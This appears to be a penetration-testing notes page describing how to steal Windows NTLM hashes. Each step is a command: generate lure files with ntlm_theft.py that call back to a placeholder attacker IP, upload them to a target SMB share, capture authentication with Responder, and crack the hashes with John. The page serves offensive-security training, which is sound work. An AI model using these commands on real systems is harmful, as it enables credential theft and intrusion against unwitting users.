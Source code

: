 ```yaml
---
title: Attacks
description: Windows
---
```

## Table of Contents
- [Dumping NTLM hashes via docx file using NTLM Theft](#dumping-ntlm-hashes-via-docx-file-using-ntlm-theft)


## Dumping NTLM hashes via docx file using NTLM Theft

In this step of the exploitation process, we utilize `ntlm_theft.py` in conjunction with Responder to steal NTLM hashes from the target system. NTLM hashes are commonly used in Windows environments for authentication and can be valuable for further penetration testing.
 
https://github.com/Greenwolf/ntlm_theft


1. **Generate Malicious Files:**
   Execute `ntlm_theft.py` with appropriate parameters to generate files containing payloads designed to capture NTLM hashes:
   ```shell
   python3 ntlm_theft.py -g all -s <ATTACKER_IP> -f <OUTPUT_DIRECTORY>
   ```
   Explanation of options:

    - `-g`: Specifies the file types to generate for related attacks.
    - `-s`: Sets the server's IP, which in this case is the IP address of our Kali machine where Responder will be running.
    - `-f`: Specifies the filename for the generated files.

2. **Upload Files to SMB Share:**
   Upload the generated files to an SMB share on the target system, preferably in a location where they are likely to be accessed:
   ```shell
   smbclient //<TARGET_IP>/<SHARE_NAME> -c "cd <DIRECTORY>; put <FILE_NAME>"
   ```

3. **Set Up Responder:**
   Start Responder on your attacking machine to listen for LLMNR and NBT-NS requests and capture authentication attempts:
   ```shell
   responder -I <INTERFACE>
   ```

4. **Trigger Authentication Requests:**
   Wait for a user on the target system to access the uploaded files, triggering authentication requests containing NTLM hashes.

Once you have NTLM hashes, you can crack it with John or Hashcat.
```bash
john --format=NT --wordlist=<WORDLIST_FILE> <HASH_FILE>
```